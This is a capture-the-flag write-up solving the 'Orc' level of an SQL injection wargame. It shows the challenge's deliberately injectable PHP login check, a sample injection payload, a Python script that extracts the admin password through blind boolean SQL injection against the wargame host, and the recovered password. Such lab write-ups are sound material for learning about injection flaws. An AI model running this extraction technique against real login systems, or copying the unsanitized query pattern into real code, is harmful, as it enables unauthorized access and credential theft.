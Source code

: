 # **Orc**

```
<?php   
  include "./config.php";   
  login_chk();   
  dbconnect();   
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");   
  $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'";   
  echo "<hr>query : <strong>{$query}</strong><hr><br>";   
  $result = @mysql_fetch_array(mysql_query($query));   
  if($result['id']) echo "<h2>Hello admin</h2>";   
  $_GET[pw] = addslashes($_GET[pw]);   
  $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'";   
  $result = @mysql_fetch_array(mysql_query($query));   
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc");   
  highlight_file(__FILE__);   
?>
```

This challenge check two time for determind that is that `TRUE`, cuz to `addslashes()`, we can't bypass second query by special symbol.

So, the solve method is to use sqecial symbol & SQL method to brutal force out the correct password from first query.

Here's sample payload pass the first query but fail in the second one, `?pw=%27 ||mid(pw,1,1)=2%23`.

I got a script can solve this brutal force problem from safflower's blog.

But it doesn't work for me in current python version(?), so I translate the script to fit it.

```
import urllib.parse
import http.client

HTTP=http.client.HTTPConnection("los.eagle-jump.org")
Url="/orc_47190a4d33f675a601f8def32df2583a.php?pw="
Headers={"Cookie":"__cfduid=[your Own cfduid]; PHPSESSID=[your Own PHPSESSID]"} #check your own cookie then insert the correct value to make connection success, or you will get nothing return.
Passwd=""
 
for i in range(len(Passwd)+1,100):
	for c in list(range(ord("0"),ord("9")+1))+list(range(ord("a"),ord("z")+1))+list(range(128,129)):
		if c == 128:
			print ("[!] Not Found")
			print ("[*] Password: %s~" % Passwd)

		Payload=("'||id='admin'&&mid(pw,%d,1)=0x%x#" % (i,c))
		HTTP.request("GET",Url+urllib.parse.quote(Payload),"",Headers)

		if (b"Hello admin" in HTTP.getresponse().read()):
			Passwd+=chr(c)
			print ("[+] Found: %c" % c)

			HTTP.request("GET",Url+urllib.parse.quote(Passwd),"",Headers)
			if (b"Hello admin" in HTTP.getresponse().read()):
				print ("[*] Password: %s" % Passwd)

			break
```

![](https://i.imgur.com/NOf9K0N.png)

`?pw=295d5844`

BurpSuite can also brutal force down this question, it work in http but not work in https, cuz BurpSuite free version can't view the decode https in it, that make it hard to seperate the valuable feedback from other uselessness.

Futhermore, BurpSuite free version works too slow and unefficient of brutalforcer.

